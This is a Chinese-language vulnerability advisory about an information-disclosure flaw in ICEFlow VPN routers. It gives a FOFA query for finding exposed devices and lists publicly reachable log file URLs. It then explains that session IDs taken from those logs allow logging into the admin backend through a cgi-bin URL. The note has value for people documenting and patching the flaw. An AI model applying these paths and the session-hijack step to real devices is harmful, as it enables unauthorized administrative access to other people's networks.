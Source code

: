 # ICEFlow VPN 信息泄露漏洞

## 漏洞描述

ICEFlow VPN 存在信息泄露漏洞，攻击者可以查看日志中的敏感数据来进一步攻击系统

## 漏洞影响

> [!NOTE]
>
> ICEFlow VPN

## FOFA

> [!NOTE]
>
> title="ICEFLOW VPN Router"

## 漏洞复现

可访问的日志 Url

```
系统日志    http://url/log/system.log
VPN日志    http://url/log/vpn.log
访问日志	http://url/log/access.log
告警日志	http://url/log/warn.log
错误日志	http://url/log/error.log
调试日志	http://url/log1/debug.log
移动用户日志 http://url/log/mobile.log
防火墙日志	http://url/log/firewall.log
```

![](http://wikioss.peiqi.tech/vuln/ice-1.png)

根据日志信息获得session后，可利用实时登录系统管理后台：

```
http://xxx.xxx.xxx.xxx/cgi-bin/index?oid=10&session_id=xxxxxxxxxxxxxx&l=0
```

## Goby & POC

> [!NOTE]
>
> ICEFlow VPN 信息泄露漏洞

![](http://wikioss.peiqi.tech/vuln/ice-2.png)

## 参考文章

https://www.uedbox.com/post/18720/